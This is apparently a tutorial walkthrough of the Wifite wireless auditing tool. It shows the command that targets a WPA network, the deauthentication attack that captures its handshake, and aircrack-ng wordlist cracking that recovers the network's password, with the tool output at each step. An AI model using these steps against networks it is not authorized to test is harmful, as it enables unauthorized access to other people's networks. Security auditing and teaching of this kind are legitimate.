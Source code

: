 # Wifite

Wifite is a really neat tool for those who want faster pawning without
the need of running command one by one. Though there are some bugs that
might happen if you didn't have dependencies for it.

Outside of Kali linux, you might want to add other programs like
`wireshark`,`hxctools`,`cowpatty`,`aircrack-ng` for this script to
run properly.

Since this is a script, you might want to use this in Kali instead
in your normal Linux daily driver. To use Wifite you have to type
` sudo ./Wifite.py`, remember to use `sudo` since you need root
privilege to run this script, it's because some dependencies want
root user privilege to change your wifi to monitor mode.

This command will execute wifite to `anom` ESSID.

```
$ sudo ./Wifite.py -e anom
```

## Results

After you run wifite, you'll get result that will be broken down here.

Banner and option are mentioned here, since I use `-e` as an option, it'll
automatically use `anom` as target ESSID.

```
   .               .    
 .´  ·  .     .  ·  `.  wifite 2.2.5
 :  :  :  (¯)  :  :  :  automated wireless auditor
 `.  ·  ` /¯\ ´  ·  .´  https://github.com/derv82/wifite2
   `     /¯¯¯\     ´    

 [+] option: targeting ESSID anom
 [!] Conflicting processes: #####
 [!] If you have problems: kill -9 PID or re-run wifite with --kill)
```

As you might see above, there might be some conflicting PID that are running
in the background, you might need to specify `--kill` to run this script
again, otherwise, you can just follow through.

After changing to monitor mode, it'll then start using deauth attack to
get wpa handshake. Manually, you might be using `airodump-ng` in conjunction
with `aireplay-ng`. It'll then save your handshake information inside
`hs/handshake_anom_EE-F1-4B-89-27-D8_2020-12-03T10-58-09.cap`.

```
 [+] Using wlp1s0mon already in monitor mode

 [+] Scanning. Found 0 target(s), 0 client(s). Ctrl+C when ready
 [+] found target MA:C0:AD:DR:ES:S0 (anom)

 [+] (1/1) Starting attacks against MA:C0:AD:DR:ES:S0 (anom)

 [+] anom (67db) WPA Handshake capture: Discovered new client: MA:C0:AD:DR:ES:S0
 [+] anom (0db) WPA Handshake capture: Discovered new client: MA:C0:AD:DR:ES:S0
 [+] anom (76db) WPA Handshake capture: Captured handshake
 [+] saving copy of handshake to hs/handshake_anom_EE-F1-4B-89-27-D8_2020-12-03T10-58-09.cap saved
```

`airodump-ng` and `aireplay-ng` are used for capturing handshake and
saving that handshake into a file, after this, it'll then start
using `tshark`, `pyrit`, `cowpatty`, `aircrack` to then check if
the handshake captured are a valid handshake.

```
 [+] analysis of captured handshake file:
 [+]   tshark: .cap file contains a valid handshake for ee:f1:4b:89:27:d8
 [!]    pyrit: .cap file does not contain a valid handshake
 [!] cowpatty: .cap file does not contain a valid handshake
 [!] aircrack: .cap file does not contain a valid handshake
```

After cross-checking all handshakes contained in the file, it'll start
aircrack-ng to do password cracking, it'll take some time if your
password is good enough. Here I will use a really complicated password
`abcdefgh` a really strong and complicated password (please don't use
this kind of password, since it'll be cracked in no seconds.).

```
 [+] Cracking WPA Handshake: Running aircrack-ng with wordlist-top4800-probable.txt wordlist
 [+] Cracking WPA Handshake: 95.17% ETA: 0s @ 2588.2kps (current key: scofield)
 [+] Cracked WPA Handshake PSK: abcdefgh
```

*Jokes* aside, the result then will be generated in formats below.

```

 [+]   Access Point Name: anom
 [+]  Access Point BSSID: MA:C0:AD:DR:ES:S0
 [+]          Encryption: WPA
 [+]      Handshake File: hs/handshake_anom_EE-F1-4B-89-27-D8_2020-12-03T10-58-09.cap
 [+]      PSK (password): abcdefgh
 [+] saved crack result to cracked.txt (2 total)
 [+] Finished attacking 1 target(s), exiting
 ```
